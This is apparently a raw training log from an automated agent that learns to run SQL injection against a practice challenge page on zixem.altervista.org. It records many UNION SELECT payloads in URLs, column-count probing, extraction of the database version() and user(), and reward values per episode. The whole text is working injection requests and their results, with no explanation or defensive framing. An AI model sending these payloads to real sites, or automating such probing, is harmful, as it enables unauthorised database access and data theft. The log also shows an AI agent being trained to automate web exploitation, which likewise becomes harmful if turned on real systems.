Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=

  0%|          | 428/1000000 [2:39:26<5832:49:46, 21.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervis

  0%|          | 429/1000000 [2:41:48<15849:33:18, 57.08s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 430/1000000 [2:41:48<11168:15:58, 40.22s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 431/1000000 [2:41:49<7896:24:08, 28.44s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 432/1000000 [2:41:50<5608:44:08, 20.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 433/1000000 [2:41:51<4007:26:38, 14.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 434/1000000 [2:41:52<2883:00:26, 10.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 435/1000000 [2:41:53<2093:30:02,  7.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 436/1000000 [2:41:54<1538:56:35,  5.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 437/1000000 [2:41:55<1157:27:45,  4.17s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 438/1000000 [2:41:56<891:11:18,  3.21s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 439/1000000 [2:41:57<696:10:41,  2.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 440/1000000 [2:41:59<645:49:35,  2.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 441/1000000 [2:42:00<522:09:33,  1.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 442/1000000 [2:42:00<437:49:28,  1.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union sele

  0%|          | 443/1000000 [2:42:13<1360:33:45,  4.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 444/1000000 [2:42:15<1106:24:51,  3.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 445/1000000 [2:42:16<857:26:33,  3.09s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 446/1000000 [2:42:17<674:01:23,  2.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 447/1000000 [2:42:18<553:38:07,  1.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 448/1000000 [2:42:19<460:52:19,  1.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 449/1000000 [2:42:20<400:20:22,  1.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 450/1000000 [2:42:21<353:30:38,  1.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 451/1000000 [2:42:21<321:07:53,  1.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --

  0%|          | 452/1000000 [2:44:03<8705:23:12, 31.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 453/1000000 [2:44:04<6182:34:44, 22.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 454/1000000 [2:44:05<4405:49:45, 15.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 455/1000000 [2:44:06<3164:36:21, 11.40s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax err

  0%|          | 456/1000000 [2:44:39<4968:08:40, 17.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of co

  0%|          | 457/1000000 [2:45:22<7037:34:02, 25.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server res

  0%|          | 458/1000000 [2:45:57<7825:26:16, 28.18s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 459/1000000 [2:45:58<5545:17:22, 19.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 

  0%|          | 460/1000000 [2:46:59<8957:04:36, 32.26s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server r

  0%|          | 461/1000000 [2:47:07<6947:20:14, 25.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 462/1000000 [2:47:07<4931:35:43, 17.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 463/1000000 [2:47:08<3483:35:31, 12.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 464/1000000 [2:47:09<2515:14:39,  9.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=

  0%|          | 465/1000000 [2:48:51<10303:52:06, 37.11s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 

  0%|          | 466/1000000 [2:50:07<13512:16:40, 48.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 467/1000000 [2:50:08<9533:39:01, 34.34s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 468/1000000 [2:50:09<6750:58:40, 24.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 469/1000000 [2:50:10<4808:38:29, 17.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 470/1000000 [2:50:11<3448:52:13, 12.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zi

  0%|          | 471/1000000 [2:50:18<2978:36:57, 10.73s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 472/1000000 [2:50:18<2162:51:06,  7.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zi

  0%|          | 473/1000000 [2:51:42<8467:28:17, 30.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 474/1000000 [2:51:43<6001:33:13, 21.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 475/1000000 [2:51:44<4306:44:20, 15.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 476/1000000 [2:51:46<3145:16:03, 11.33s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server respo

  0%|          | 477/1000000 [2:54:00<13365:03:14, 48.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 478/1000000 [2:54:00<9417:11:04, 33.92s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 479/1000000 [2:54:01<6666:37:46, 24.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 480/1000000 [2:54:02<4742:01:13, 17.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response 

  0%|          | 481/1000000 [2:54:14<4333:52:19, 15.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 482/1000000 [2:54:15<3104:08:50, 11.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 483/1000000 [2:54:16<2249:09:09,  8.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 484/1000000 [2:54:17<1636:30:12,  5.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 485/1000000 [2:54:18<1206:10:48,  4.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 486/1000000 [2:54:19<918:13:11,  3.31s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 487/1000000 [2:54:19<702:35:10,  2.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 488/1000000 [2:54:20<566:50:22,  2.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Sy

  0%|          | 489/1000000 [2:55:14<4870:34:28, 17.54s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 490/1000000 [2:55:15<3491:53:51, 12.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 491/1000000 [2:55:16<2524:21:55,  9.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 492/1000000 [2:55:17<1835:10:14,  6.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 493/1000000 [2:55:18<1410:43:12,  5.08s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 494/1000000 [2:55:19<1070:37:25,  3.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 495/1000000 [2:55:20<845:10:11,  3.04s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 496/1000000 [2:55:21<658:12:44,  2.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
